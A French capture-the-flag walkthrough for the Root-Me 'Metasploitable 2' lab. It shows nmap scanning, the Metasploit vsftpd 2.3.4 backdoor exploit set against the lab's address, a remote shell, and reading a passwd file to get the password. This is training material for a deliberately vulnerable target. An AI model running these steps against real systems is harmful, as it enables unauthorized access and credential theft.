 # Metasploitable 2


Une fois l'environnement virtuel démarré et kali linux lancé, il faut récupérer l'adresse de l'environnement virtuel (exemple : `ctf01.root-me.org`).

Il faut lancer nmap sur Kali Linux, il faut taper cette commande :<br>
```nmap -v -A ctf01.root-me.org```<br>
L'argument **-v** sert à augmenter le niveau de verbosité, forçant Nmap à afficher plus d'informations sur le scan qu'il effectue. Les ports ouverts sont indiqués au fur et à mesure où ils sont trouvés ainsi qu'une évaluation du temps qui reste à scanner si Nmap pense que cela prendra quelques minutes. Utilisez cette option deux fois pour encore plus de verbosité.<br/>
L'argument **-A** sert à détecter le système d'exploitation et la version.

En parallèle de l'analyse, il faut lancer Metasploit avec cette commande :<br>
```msfconsole```

Une fois que l'analyse nmap est terminée, une faille sur le port 21 est affichée :

![Image de nmap](1.png)

Il faut utiliser le nom de cette faille sur Metasploit. Il faut chercher si les deux versions sont identiques en tapant sur Metasploit :<br>
```search vsftpd```

Metasploit la possède, il faut donc l'utiliser en tapant :<br>
`use exploit/unix/ftp/vsftpd_234_backdoor`

Puis il faut saisir le RHOSTS *(hôte distant)* qui est vide par defaut, le RHOSTS correspond à l'adresse IP de l'environnement virtuel, elle est obtenue lors de l'analyse de nmap. La commande pour saisir le RHOSTS :<br>
`set RHOSTS 163.172.228.114`

Ceci fait, il faut lancer l'exploit en tapant :<br>
`exploit`

![Image de metasploit](2.png)

Ensuite, il faut éxécuter la commande `shell` puis `ls` et le fichier `passwd` est listé. Il faut donc l'ouvrir et le mot de passe se trouve à l'intérieur.
<br>
<br>
<br>
**_Notes :_**

*Nmap est un scanneur de ports libre. Il est conçu pour détecter les ports ouverts, indentifier les services hébergés et obtenir des informations sur le système d'exploitation d'un ordinateur distant.*<br>
*Metasploit est un projet en relation avec la sécurité des systèmes informatiques. Son but est de fournir des informations sur les vulnérabilités de systèmes informatiques, d'aider à la pénétration.*